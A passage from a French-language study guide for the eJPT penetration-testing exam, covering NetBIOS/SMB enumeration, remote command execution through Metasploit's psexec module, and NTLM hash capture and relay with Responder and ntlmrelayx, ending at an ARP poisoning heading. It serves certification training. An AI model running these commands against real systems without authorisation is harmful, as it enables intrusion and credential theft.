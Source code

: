 ## 10. Host & Network attacks spécifiques

Dans l'examen eJPT, vous rencontrerez probablement des scénarios d'attaques spécifiques ciblant des hôtes ou des réseaux. Cette section couvre les techniques les plus courantes que vous devrez maîtriser.

### Attaques NetBIOS et SMB

Les services NetBIOS et SMB sont souvent des cibles privilégiées dans les environnements Windows :

```bash
# Énumération NetBIOS
nbtscan 10.10.10.0/24

# Énumération SMB complète
enum4linux-ng -A 10.10.10.15

# Connexion à un partage SMB
smbclient //10.10.10.15/share -U "username%password"

# Exécution de commandes via SMB (PsExec)
msfconsole
use exploit/windows/smb/psexec
set SMBDomain WORKGROUP
set SMBUser administrator
set SMBPass password
set RHOSTS 10.10.10.15
exploit
```

**En clair, pour un débutant** : Ces commandes vous permettent d'explorer et d'exploiter les partages de fichiers Windows. C'est comme accéder à distance aux dossiers partagés d'un ordinateur, puis utiliser cette connexion pour exécuter vos propres commandes.

### Attaques de relais NTLM

Les attaques de relais peuvent être très efficaces dans certains environnements :

```bash
# Configuration de Responder pour capturer les hachages NTLM
sudo responder -I tun0 -wrf

# Utilisation de ntlmrelayx pour relayer les authentifications
sudo ntlmrelayx.py -tf targets.txt -smb2support
```

**En clair, pour un débutant** : Ces outils interceptent les tentatives de connexion des utilisateurs et les redirigent vers d'autres systèmes. C'est comme si vous interceptiez quelqu'un qui frappe à une porte et utilisiez son identité pour frapper à une autre porte.

### Attaques par empoisonnement ARP

L'empoisonnement ARP permet d'intercepter le trafic réseau :
